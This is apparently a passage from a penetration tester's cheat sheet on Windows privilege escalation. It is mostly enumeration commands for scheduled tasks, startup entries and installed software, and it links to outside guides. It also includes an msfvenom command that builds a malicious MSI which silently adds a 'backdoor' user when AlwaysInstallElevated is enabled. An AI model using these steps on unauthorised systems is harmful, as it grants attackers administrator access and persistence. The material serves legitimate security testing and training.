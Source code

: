 Check https://www.toshellandback.com/2015/08/30/gpp/ for some explanations.


### Scheduled Tasks

Look for anything custom, run by a privileged user, and running a binary we can overwrite. Might be tons of output
```cmd
schtasks /query /fo LIST 2>nul | findstr TaskName
dir C:\windows\tasks
```
Or in powershell
```powershell
Get-ScheduledTask | ft TaskName, State
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```
Check this file
```cmd
c:\WINDOWS\SchedLgU.Txt
```

Startup tasks

```cmd
wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
```

### AlwaysInstallElevated

Worth checking for...
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
If those keys are set to enabled, then you can use msfvenom to generate a malicious MSI file and install it:
```bash
$ msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
$ msiexec /quiet /qn /i C:\evil.msi
```
https://toshellandback.com/2015/11/24/ms-priv-esc/ has some more examples.


### Weak Service, Process, and Program Permissions
Taken mostly from https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/

What is installed?
```cmd
dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE
```

